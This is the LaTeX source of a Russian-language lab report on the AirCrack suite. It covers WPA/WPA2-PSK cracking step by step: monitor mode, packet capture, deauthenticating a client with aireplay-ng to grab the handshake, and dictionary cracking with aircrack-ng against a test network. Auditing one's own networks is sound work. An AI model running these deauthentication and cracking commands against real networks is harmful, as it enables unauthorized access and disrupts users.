%----------------------------------------------------------------------------------------
%	PACKAGES AND DOCUMENT CONFIGURATIONS
%----------------------------------------------------------------------------------------

\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx} % Required for the inclusion of images
\graphicspath{{res/}}
\usepackage{natbib} % Required to change bibliography style to APA
\usepackage{amsmath} % Required for some math elements 
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{listings}

\usepackage[T1,T2A]{fontenc}

\setlength\parindent{0pt} % Removes all indentation from paragraphs

\renewcommand{\labelenumi}{\alph{enumi}.} % Make numbering in the enumerate environment by letter rather than number (e.g. section 6)

%----------------------------------------------------------------------------------------
%	DOCUMENT INFORMATION
%----------------------------------------------------------------------------------------

\title{Набор инструментов для аудита беспроводных сетей AirCrack} % Title

\author{Виктор \textsc{Борисов}} % Author name


\begin{document}

\maketitle % Insert the title, author and date

\newpage

\tableofcontents

\newpage


\section{Цель работы}
Изучить основные возможности пакета AirCrack и принципы взлома WPA/WPA2 PSK и WEP.


\section{Ход работы}

\subsection{Изучение}
\subsubsection{Основные утилиты пакета}
\begin{itemize}
\item airmon-ng - позволяет определить имеющиеся беспроводные интерфейсы и назначить режим мониторинга сети на один из доступных интерфейсов. Синтаксис:
\begin{verbatim}
airmon-ng <start|stop> <interface> [channel]
\end{verbatim}
\item airodump-ng - перехват пакетов протокола 802.11
\item aireplay-ng - генерация трафика, то есть принудительно заставить общаться клиента с точкой доступа.
\item aircrack-ng - анализ перехваченных пакетов. Синтаксис команды aircrack-ng различен для WEP- и WPA-PSK-шифрования. Общий синтаксис команды следующий:
\begin{verbatim}
aircrack-ng [options] <capture file(s)>
\end{verbatim}
\end{itemize}

\subsubsection{Утилита airodump}
Синтаксис:
\begin{verbatim}
airodump-ng <options> <interface>[,<interface>,...]
\end{verbatim}

Опции:
\begin{itemize}
\item --ivs : Сохранять только отловленные IVы. Короткая форма -i.
\item --gpsd : Использовать GPS. Короткая форма -g.
\item --write <prefix> : Перфикс файла дампа. Короткая форма -w.
\item --beacons : Записывать все маяки в файл дампа. Короткая форма -e.
\item --netmask <netmask> : Фильтровать точки по маске. Короткая форма -m.
\item --bssid <bssid> : Фильтровать точки по BSSID. Короткая форма -d.
\item --encrypt <suite> : Фильтровать точки по типу шифрования. Короткая форма -t
\item -a : Фильтровать неасоциированых клиентов

По умолчанию, airodump-ng отслеживает каналы на частоте 2.4Ghz.
Вы можете заставить ее отслеживать пакеты на другом/определенном канале используя:
\item --channel <channels>: Определить канал. Короткая форма -c.
\item --band <abg> :Полоса на которой airodump-ng будет отлавливать
пакеты. Короткая форма -b.
\item --cswitch <method> : Установить метод переключения каналов. Короткая форма -s.

0 : FIFO (по умолчанию)

1 : Round Robin

2 : Hop on last
\end{itemize}

\subsection{Запуск режима мониторинга на беспроводном интерфейсе}
Запустить режим монитринга можно командой
\begin{verbatim}
airmon-ng start wlan0
\end{verbatim}

\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{airmon_start}
\caption{Запуск режима мониторинга на беспроводном интерфейсе wlan0.}
\end{figure}


\subsection{Запуск сбора трафика для получения аутентификационных сообщений}
Запуск режима сбора трафика запускается командой
\begin{verbatim}
airodump-ng wlan0mon
\end{verbatim}

\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{airodump_all}
\caption{Запуск сбора трафика всех интерфейсов для получения сообщений.}
\end{figure}

Для сбора данных выбираем интересующую нас тестовую сеть DAP-1155 c BSSID 00:07:26:39:56:ED на 7-ом канале. Вывод в файл wlan0-airdump.
\begin{verbatim}
airdump-ng wlan0mon --write wlan0-airdump --bssid 00:07:26:39:56:ED -c 7
\end{verbatim}

\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{airodump_1}
\caption{Сбора трафика выбранной сети.}
\end{figure}

Нам необходимо перехватить handshake, который передается только лишь при инитиализации подключения хоста к беспроводному маршрутизатору. Если продолжительное время не происходит подлючений, можно провести деаутентификацию одного из узлов. Например, с MAC-адресом 60:D9:C7:0C:0C:CA.

\begin{verbatim}
aireplay-ng -0 1 -a 00:07:26:39:56:ED -c 60:D9:C7:0C:0C:CA wlan0mon
\end{verbatim}

\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{airoplay}
\caption{Деаутентификации.}
\end{figure}

При этом запущенный ранее airodump-ng должен был перехватить handshake и вывести соответсвующее сообщение в правом верхем углу консоли.

\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{airodump_2}
\caption{Процесс прослушивания сети при деаутентификации.}
\end{figure}


\subsection{Взлом с использованием словаря паролей}
В результате предыдущего этапа получен handshake и следовательно можно попытаться подобрать пароль от беспроводной сети по словарю. Для этого выполним следующую команду:
\begin{verbatim}
aircrack-ng -w password.lst -b 00:07:26:39:56:ED wlan0-airdump*.cap
\end{verbatim}
Где wlan0-airdump-*.cap - маска названий файлов дампа, password.lst - путь к файлу-словарю для перебора.

Пароль успешно подобран.
\begin{figure}[h]
\centering

\includegraphics[width=\textwidth]{aircrack}
\caption{Подбор пароля}
\end{figure}

\section{Выводы}
По результатам выполненной работы были изучены основные возможности пакеты AirCrack и принципы взлома беспроводных сетей на основе WPA/WPA2 PSK. Среди возможностей можно отметить перехват пакетов, генерация трафика (в том числе деаутентификация клиентов), анализ пакетов и подбор паролей. Так как взлом осуществляется методом поиска по паролю или полному перебору, то взломать WPA при сложном пароле весьма проблематично. Протокол WEP таки является более уязвимым, из-за чего же применяется все реже.
\end{document}


%----------------------------------------------------------------------------------------
%	END
%----------------------------------------------------------------------------------------


\end{document}

